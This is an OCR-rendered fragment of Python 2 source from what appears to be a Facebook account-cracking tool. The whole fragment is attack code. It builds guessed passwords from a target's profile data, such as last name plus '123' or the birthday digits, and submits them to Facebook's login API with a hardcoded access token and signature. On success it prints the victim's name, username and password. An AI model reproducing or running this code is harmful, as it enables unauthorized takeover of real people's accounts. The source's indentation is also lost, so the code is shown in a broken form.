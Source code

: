 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
if 'www.facebook.com' in y['error_msg']:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
pz3 = a['last_name'] + '123'
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
y = json.load(data)
if 'access_token' in y:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
if 'www.facebook.com' in y['error_msg']:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
lahir = a['birthday']
pz4 = lahir.replace('/', '')
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
y = json.load(data)
if 'access_token' in y:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
if 'www.facebook.com' in y['error_msg']:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
print '\x1b[1;91m[!] Sorry, opening password target failed :('
print '\x1b[1;91m[!] Try other method.'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
except KeyError: